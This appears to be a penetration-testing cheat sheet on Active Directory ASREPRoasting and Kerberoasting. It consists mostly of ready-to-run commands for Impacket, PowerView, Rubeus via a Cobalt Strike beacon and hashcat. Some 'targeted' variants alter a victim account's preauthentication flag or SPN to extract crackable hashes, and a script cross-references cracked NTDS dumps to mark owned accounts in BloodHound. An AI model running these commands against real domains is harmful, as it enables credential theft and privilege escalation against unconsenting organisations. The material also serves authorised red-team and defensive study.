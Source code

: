 # Roasting




## ASREPRoasting

Show domain users with `DONT_REQ_PREAUTH` flag set:

```
PowerView3 > Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```



### Normal


#### GetNPUsers.py

- [https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/](https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/)

```
$ GetNPUsers.py megacorp.local/ -dc-ip 127.0.0.1 -no-pass -usersfile ~/ws/enum/names.txt -request -outputfile asrep.in | tee GetNPUsers.out
$ cat GetNPUsers.out | grep -v 'Client not found in Kerberos database'
$ hashcat -m 18200 -O -a 0 -w 4 --session=asrep -o asrep.out asrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```


#### ASREPRoast.ps1

- [https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)

```
PS > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
```


#### Rubeus

```
beacon> execute-assembly ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
beacon> execute-assembly Rubeus.exe asreproast /nowrap [/user:svc_mssql]
```



### Targeted

- [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast)

> "Given GenericWrite/GenericAll DACL rights over a target, we can modify most of the user's attributes. We can change a victim's userAccountControl to not require Kerberos preauthentication, grab the user's crackable AS-REP, and then change the setting back." (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
PowerView3 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
ASREPRoast > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
PowerView3 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
```




## Kerberoasting

- [http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)
- [https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
- [https://github.com/GhostPack/Rubeus#kerberoast](https://github.com/GhostPack/Rubeus#kerberoast)
- [https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type](https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type)
- [https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)
- [https://habr.com/ru/post/650889/](https://habr.com/ru/post/650889/)
- [https://m365internals.com/2021/11/08/kerberoast-with-opsec/](https://m365internals.com/2021/11/08/kerberoast-with-opsec/)
- [https://github.com/Luct0r/KerberOPSEC](https://github.com/Luct0r/KerberOPSEC)
- [https://redcanary.com/blog/marshmallows-and-kerberoasting/](https://redcanary.com/blog/marshmallows-and-kerberoasting/)

{% embed url="https://twitter.com/_wald0/status/1361720293539139589" %}

Check `msDS-SupportedEncryptionTypes` attribute (if RC4 is enabled):

```
PowerView3 > Get-DomainUser -Identity snovvcrash -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```



### Normal


#### GetUserSPNs.py

```
$ GetUserSPNs.py megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 127.0.0.1 -request -outputfile tgsrep.in
$ hashcat -m 13100 -O -a 0 -w 4 --session=tgsrep -o tgsrep.out tgsrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

{% hint style="info" %}
In case LDAP(S) ports are blocked, kerberoasting can be performed via the Global Catalog port (3268/TCP). For that purposes [change](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/GetUserSPNs.py#L268) `ldap://` scheme to `gc://`.
{% endhint %}

Check if there're any **brutable** kerberoastable users with [a path to high value targets](https://github.com/ShutdownRepo/Exegol-images/blob/dcc67cbb8ec69e3dd80aa0f2d8f78980730d3dca/sources/bloodhound/customqueries.json#L34) having got cracked NTDS (useful when writing a report):

```
$ cat ~/ws/enum/tgsrep.in | grep -Pho 'krb5tgs\$23\$.*?\$' | cut -d'*' -f2 | cut -d'$' -f1 > t

$ for acc in `cat t`; do grep -ai $acc ~/ws/loot/ntds.cracked | cut -d: -f1 >> t2; done && rm t

$ vi t2
...convert domain prefix to domain suffix (megacorp.local\svcsql -> svcsql@megacorp.local)...

$ python3 max.py -u neo4j -p 'WeaponizeK4li!' mark-owned -f t2 --add-note "kerberoasted" && rm t2

$ python3 max.py -u neo4j -p 'WeaponizeK4li!' query -q 'MATCH p=shortestPath((n {owned:true})-[:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin|ReadGMSAPassword|HasSIDHistory|CanPSRemote*1..5]->(m {highvalue:true})) WHERE NOT n=m RETURN p' --path
```


#### PowerView

- [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1#L2777)

```
PowerView3 > Invoke-Kerberoast -OutputFormat Hashcat | fl
```


#### Rubeus

- [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

```
beacon> execute-assembly ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"
beacon> execute-assembly Rubeus.exe kerberoast /format:hashcat /nowrap [/usetgtdeleg] [/user:svc_mssql]
```



### Targeted

> "We can execute 'normal' Kerberoasting instead: given modification rights on a target, we can change the user's serviceprincipalname to any SPN we want (even something fake), Kerberoast the service ticket, and then repair the serviceprincipalname value." (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView3 > Get-DomainUser snovvcrash | select serviceprincipalname
PowerView3 > Set-DomainObject -Identity snovvcrash -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
PowerView3 > $User = Get-DomainUser snovvcrash 
PowerView3 > $User | Get-DomainSPNTicket | fl
PowerView3 > $User | select serviceprincipalname
PowerView3 > Set-DomainObject -Identity snovvcrash -Clear serviceprincipalname
```



### Downgrading Encryption Type (RC4)

- [https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled)
- [https://vbscrub.com/tag/kerberos/](https://vbscrub.com/tag/kerberos/)
